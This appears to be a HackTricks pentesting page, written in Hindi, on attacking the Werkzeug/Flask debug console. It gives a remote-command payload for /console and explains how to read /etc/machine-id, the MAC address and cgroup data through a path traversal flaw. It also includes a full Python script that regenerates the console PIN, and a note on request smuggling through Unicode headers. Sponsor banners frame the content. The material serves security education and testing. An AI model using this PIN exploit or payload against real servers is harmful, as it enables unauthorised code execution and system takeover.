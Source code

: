 # Werkzeug / Flask Debug

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**अपने वेब ऐप्स, नेटवर्क और क्लाउड पर हैकर का दृष्टिकोण प्राप्त करें**

**महत्वपूर्ण, शोषण योग्य कमजोरियों को खोजें और रिपोर्ट करें जिनका वास्तविक व्यावसायिक प्रभाव है।** हमारे 20+ कस्टम टूल का उपयोग करके हमले की सतह का मानचित्रण करें, सुरक्षा मुद्दों को खोजें जो आपको विशेषाधिकार बढ़ाने की अनुमति देते हैं, और आवश्यक सबूत इकट्ठा करने के लिए स्वचालित शोषण का उपयोग करें, जिससे आपका कठिन काम प्रभावशाली रिपोर्टों में बदल जाए।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

यदि डिबग सक्रिय है तो आप `/console` तक पहुँचने और RCE प्राप्त करने का प्रयास कर सकते हैं।
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

इंटरनेट पर कई एक्सप्लॉइट्स भी हैं जैसे [यह ](https://github.com/its-arun/Werkzeug-Debug-RCE)या मेटास्प्लॉट में एक।

## पिन सुरक्षित - पथ यात्रा

कुछ अवसरों पर **`/console`** एंडपॉइंट एक पिन द्वारा सुरक्षित होगा। यदि आपके पास **फाइल ट्रैवर्सल वल्नरेबिलिटी** है, तो आप उस पिन को उत्पन्न करने के लिए सभी आवश्यक जानकारी लीक कर सकते हैं।

### Werkzeug कंसोल पिन एक्सप्लॉइट

ऐप में एक डिबग त्रुटि पृष्ठ को मजबूर करें ताकि इसे देखा जा सके:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
एक संदेश "कंसोल लॉक" परिदृश्य के बारे में तब मिलता है जब Werkzeug के डिबग इंटरफेस तक पहुँचने का प्रयास किया जाता है, जो कंसोल को अनलॉक करने के लिए एक PIN की आवश्यकता को इंगित करता है। सुझाव दिया गया है कि कंसोल PIN का शोषण Werkzeug के डिबग प्रारंभिक फ़ाइल (`__init__.py`) में PIN जनरेशन एल्गोरिदम का विश्लेषण करके किया जाए। PIN जनरेशन तंत्र का अध्ययन [**Werkzeug स्रोत कोड भंडार**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py) से किया जा सकता है, हालांकि संभावित संस्करण भिन्नताओं के कारण वास्तविक सर्वर कोड को फ़ाइल ट्रैवर्सल भेद्यता के माध्यम से प्राप्त करने की सलाह दी जाती है।

कंसोल PIN का शोषण करने के लिए, दो सेट के वेरिएबल्स, `probably_public_bits` और `private_bits`, की आवश्यकता होती है:

#### **`probably_public_bits`**

* **`username`**: उस उपयोगकर्ता को संदर्भित करता है जिसने Flask सत्र शुरू किया।
* **`modname`**: आमतौर पर `flask.app` के रूप में नामित होता है।
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: सामान्यतः **Flask** में हल होता है।
* **`getattr(mod, '__file__', None)`**: Flask निर्देशिका के भीतर `app.py` का पूरा पथ दर्शाता है (जैसे, `/usr/local/lib/python3.5/dist-packages/flask/app.py`)। यदि `app.py` लागू नहीं है, तो **`app.pyc`** का प्रयास करें।

#### **`private_bits`**

* **`uuid.getnode()`**: वर्तमान मशीन का MAC पता प्राप्त करता है, जिसमें `str(uuid.getnode())` इसे दशमलव प्रारूप में अनुवादित करता है।
* **सर्वर के MAC पते का निर्धारण करने के लिए**, एक को ऐप द्वारा उपयोग किए जा रहे सक्रिय नेटवर्क इंटरफेस की पहचान करनी होगी (जैसे, `ens3`)। यदि अनिश्चितता हो, तो **`/proc/net/arp`** लीक करें ताकि डिवाइस ID मिल सके, फिर **`/sys/class/net/<device id>/address`** से **MAC पता निकालें**।
*   एक हेक्साडेसिमल MAC पते को दशमलव में परिवर्तित करने के लिए नीचे दिखाए अनुसार किया जा सकता है:

```python
# उदाहरण MAC पता: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: `/etc/machine-id` या `/proc/sys/kernel/random/boot_id` से डेटा को `/proc/self/cgroup` की पहली पंक्ति के साथ अंतिम स्लैश (`/`) के बाद जोड़ता है।

<details>

<summary>Code for `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

सभी आवश्यक डेटा को एकत्र करने के बाद, एक्सप्लॉइट स्क्रिप्ट को Werkzeug कंसोल PIN उत्पन्न करने के लिए निष्पादित किया जा सकता है:

सभी आवश्यक डेटा को एकत्र करने के बाद, एक्सप्लॉइट स्क्रिप्ट को Werkzeug कंसोल PIN उत्पन्न करने के लिए निष्पादित किया जा सकता है। स्क्रिप्ट एकत्रित `probably_public_bits` और `private_bits` का उपयोग करके एक हैश बनाती है, जो फिर अंतिम PIN उत्पन्न करने के लिए आगे की प्रक्रिया से गुजरती है। नीचे इस प्रक्रिया को निष्पादित करने के लिए Python कोड है:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
यह स्क्रिप्ट जुड़े हुए बिट्स को हैश करके, विशिष्ट साल्ट (`cookiesalt` और `pinsalt`) जोड़कर, और आउटपुट को फॉर्मेट करके PIN उत्पन्न करती है। यह ध्यान रखना महत्वपूर्ण है कि `probably_public_bits` और `private_bits` के वास्तविक मानों को लक्षित प्रणाली से सटीक रूप से प्राप्त करना आवश्यक है ताकि उत्पन्न PIN Werkzeug कंसोल द्वारा अपेक्षित PIN से मेल खाता हो।

{% hint style="success" %}
यदि आप Werkzeug के **पुराने संस्करण** पर हैं, तो **hashing algorithm को md5** में बदलने का प्रयास करें, sha1 के बजाय।
{% endhint %}

## Werkzeug Unicode वर्ण

जैसा कि [**इस मुद्दे**](https://github.com/pallets/werkzeug/issues/2833) में देखा गया है, Werkzeug हेडर में Unicode वर्णों के साथ एक अनुरोध को बंद नहीं करता है। और जैसा कि [**इस लेख**](https://mizu.re/post/twisty-python) में समझाया गया है, इससे CL.0 Request Smuggling भेद्यता हो सकती है।

यह इसलिए है, क्योंकि Werkzeug में कुछ **Unicode** वर्ण भेजना संभव है और यह सर्वर को **टूट** देगा। हालाँकि, यदि HTTP कनेक्शन **`Connection: keep-alive`** हेडर के साथ बनाया गया था, तो अनुरोध का शरीर नहीं पढ़ा जाएगा और कनेक्शन अभी भी खुला रहेगा, इसलिए अनुरोध का **शरीर** **अगले HTTP अनुरोध** के रूप में माना जाएगा।

## स्वचालित शोषण

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## संदर्भ

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**अपने वेब ऐप्स, नेटवर्क और क्लाउड पर एक हैकर का दृष्टिकोण प्राप्त करें**

**वास्तविक व्यावसायिक प्रभाव के साथ महत्वपूर्ण, शोषण योग्य भेद्यताओं को खोजें और रिपोर्ट करें।** हमारे 20+ कस्टम टूल का उपयोग करके हमले की सतह को मैप करें, सुरक्षा मुद्दों को खोजें जो आपको विशेषाधिकार बढ़ाने की अनुमति देते हैं, और आवश्यक सबूत इकट्ठा करने के लिए स्वचालित शोषण का उपयोग करें, जिससे आपका कठिन काम प्रभावशाली रिपोर्टों में बदल जाए।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करके हैकिंग ट्रिक्स साझा करें।

</details>
{% endhint %}
